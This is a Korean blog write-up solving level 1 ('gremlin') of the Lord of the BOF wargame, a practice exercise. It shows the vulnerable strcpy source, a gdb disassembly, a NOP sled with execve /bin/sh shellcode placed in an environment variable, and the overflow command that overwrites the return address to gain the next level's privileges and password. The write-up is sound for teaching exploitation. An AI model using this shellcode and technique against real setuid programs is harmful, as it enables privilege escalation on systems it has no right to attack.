 ```yaml
---
title: LOB 1번 Write-up
date: 2017-8-20 18:05:00
categories: LOB
tags: LOB
---
```


처음부터 LOB를 풀자니 조금 어려워서, 비슷한 오버플로우 문제인 FTZ 9번과 11번 문제의 write-up을 참고해 문제를 풀었습니다.

## LOB 1번

LOB를 설치한 VM의 주소로 접속하면 이러한 화면이 나옵니다.


    _______________________
      _______________________-------------------                       `\
     /:--__                                                              |
    ||< > |                                   ___________________________/
    | \__/_________________-------------------                         |
    |                                                                  |
     |        The Lord of the BOF : The Fellowship of the BOF, 2010    |
     |                                                                  |
     |                                                                  |
      |       [enter to the dungeon]                                    |
      |       gate : gate                                                |
      |                                                                  |
      |       [RULE]                                                     |
       |      - do not use local root exploit                             |
       |      - do not use LD_PRELOAD to my-pass                          |
       |      - do not use single boot                    [h4ck3rsch001] |
      |                                              ____________________|_
      |  ___________________-------------------------                      `\
      |/`--_                                                                 |
      ||[ ]||                                            ___________________/
       \===/___________________--------------------------
    
    login:

LOB에서는 my-pass 명령을 쳤을 때 다음 레벨의 비밀번호인 플래그가 출력되는데, 아직은 gate권한을 가지고 있으므로 이렇게 플래그 출력을 거부합니다.

    [gate@localhost gate]$ id
    uid=500(gate) gid=500(gate) groups=500(gate)
    [gate@localhost gate]$ my-pass
    euid = 500
    I dunno
현재 디렉토리에는 파일이 3개가 있습니다.

    [gate@localhost gate]$ ls -l
    total 16
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c

bash2를 띄운 후 gremlin의 소스를 확인하면 이렇게 생겼습니다.

    [gate@localhost gate]$ bash2
    [gate@localhost gate]$ cat gremlin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - gremlin
            - simple BOF
    */
    
    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

간단한 BOF라네요.
argc인자로 값을 받아오는 구조이고, 256바이트의 버퍼에 저장합니다.
오버플로우가 생길거라고 말해줍니다.

gdb를 사용하기 위해서는 현재 소유주인 파일만 분석이 가능하므로 gremlin 파일을 복사해 주었습니다.

    [gate@localhost gate]$ cp gremlin gremlin1
    [gate@localhost gate]$ ls -l
    total 28
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
    -rwsr-sr-x    1 gate     gate        11987 Aug 20 12:45 gremlin1

메모리에는 256바이트의 버퍼값과 4바이트의 버퍼 주소값이 저장되기 때문에 이처럼 파이썬 코드를 이용해 260바이트의 값을 넣어주면 Segmentation Fault가 출력됨을 알 수 있습니다.
Segmentation fault에러는 할당된 메모리를 넘어서서 잘못된 부분까지 건드릴 때 나오는 에러입니다. 오버플로우의 확인 메시지로 보면 됩니다.

    [gate@localhost gate]$ ./gremlin1 `python -c 'print "a"*260'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Segmentation fault (core dumped)

[uid 참고 자료](http://sosal.kr/122)

### 쉘코드 작성
gremlin 파일에는 setuid가 걸려있으므로 buffer를 넘어서서 sfp 값을 덮어쓰고, ret값을 수정하면 root권한의 쉘을 실행시킬 수 있겠습니다. gdb에서 gremlin의 main함수를 뜯어보면 `main+3` 에서 0x100, 즉 256바이트만큼 ESP의 값을 낮춤으로써 버퍼를 확보하는것이 보입니다.

    (gdb) disass main
    Dump of assembler code for function main:
    0x8048430 <main>:       push   %ebp
    0x8048431 <main+1>:     mov    %esp,%ebp
    0x8048433 <main+3>:     sub    $0x100,%esp
    0x8048439 <main+9>:     cmpl   $0x1,0x8(%ebp)
    0x804843d <main+13>:    jg     0x8048456 <main+38>
    0x804843f <main+15>:    push   $0x80484e0
    0x8048444 <main+20>:    call   0x8048350 <printf>
    0x8048449 <main+25>:    add    $0x4,%esp
    0x804844c <main+28>:    push   $0x0
    0x804844e <main+30>:    call   0x8048360 <exit>
    0x8048453 <main+35>:    add    $0x4,%esp
    0x8048456 <main+38>:    mov    0xc(%ebp),%eax
    0x8048459 <main+41>:    add    $0x4,%eax
    0x804845c <main+44>:    mov    (%eax),%edx
    0x804845e <main+46>:    push   %edx
    0x804845f <main+47>:    lea    0xffffff00(%ebp),%eax
    0x8048465 <main+53>:    push   %eax
    0x8048466 <main+54>:    call   0x8048370 <strcpy>
    0x804846b <main+59>:    add    $0x8,%esp
    0x804846e <main+62>:    lea    0xffffff00(%ebp),%eax
    0x8048474 <main+68>:    push   %eax
    0x8048475 <main+69>:    push   $0x80484ec

추가적인 더미 메모리 구조는 보이지 않으므로 메모리 구조는
`[ buffer(256byte)  -  sfp(4byte) - ret(4byte) ]` 가 됩니다. 따라서 쉘코드는
`[ (buffer를 채울 nop값 256바이트) + (SFP채울 더미 값 4byte) + (쉘코드의 주소값 4byte) ]`  로 만들면 됩니다.

리눅스의 export명령어를 활용해 shell이라는 환경변수를 등록하였습니다. 쉘코드 작성은 이해가 가지 않아 국어시간에 공부하는걸로 하고 25바이트 쉘코드를 받아왔습니다. (성준이형 사랑해요)

    [gate@localhost gate]$ export shell=`python -c 'print "\x90" * 100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'

이제 이 shell이라는 환경변수의 주소값을 찾아서 ret값에 넣어주기만 하면 되겠습니다.

    [gate@localhost gate]$ mkdir temp
    [gate@localhost gate]$ cd temp
    [gate@localhost temp]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    }

    [gate@localhost temp]$ gcc -o addr addr.c
    [gate@localhost temp]$ ls
	addr  addr.c
	[gate@localhost temp]$ ./addr
	0xbffffd90

따라서 shellcode의 주소는 0xbffffd90입니다.

    [gate@localhost gate]$ ./gremlin `python -c 'print "\x90" * 260 + "\x90\xfd\xff\xbf"'`
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA멅?
    bash$ id
    uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
    bash$ my-pass
    euid = 501
    hello bof world

따라서 2번 문제의 비밀번호는 `hello bof world`로 나왔습니다.
